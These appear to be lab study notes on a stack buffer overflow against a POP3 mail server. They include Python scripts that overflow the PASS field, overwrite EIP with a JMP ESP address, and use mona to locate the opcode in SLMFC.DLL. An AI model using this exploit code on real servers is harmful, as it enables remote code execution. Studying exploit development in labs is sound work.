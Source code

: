 ```python
  s.connect(('192.168.30.35',110))
  data = s.recv(1024)
  s.send('USER username' + '\r\n')
  data = s.recv(1024)
  s.send('PASS ' + buffer + '\r\n')
  print "\nDone!."
except:
  print "Could not connect to POP3!"
```

Look at memory location at ESP

* OA causes problem so we remove it

Now we find 00 and 0D causes an issue as well

### Redirecting Execution

Try to get the EIP to point to ESP

JMP ESP

### Introducing the Mona script

* in Immunity Debugger

Criteria
* No memory detections be present
  * ASLR
  * DEP
* Memory range does not contain bad chars

SLMFC.DLL
* need to find a JMP ESP in this DLL

nasm_shell.rb

find opcode with mona

`!mona find -s "\xff\xe4" -m slmfc.dll`


```python
#!/usr/bin/python
import socket
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)


buffer = "A" * 2606 + "\x8f\x35\x4a\x5f" + "C" * (3500-2606-4)


try:
  print "\nSending evil buffer..."
  s.connect(('192.168.30.35',110))
  data = s.recv(1024)
  s.send('USER username' + '\r\n')
  data = s.recv(1024)
  s.send('PASS ' + buffer + '\r\n')
  print "\nDone!."
except:
  print "Could not connect to POP3!"
```
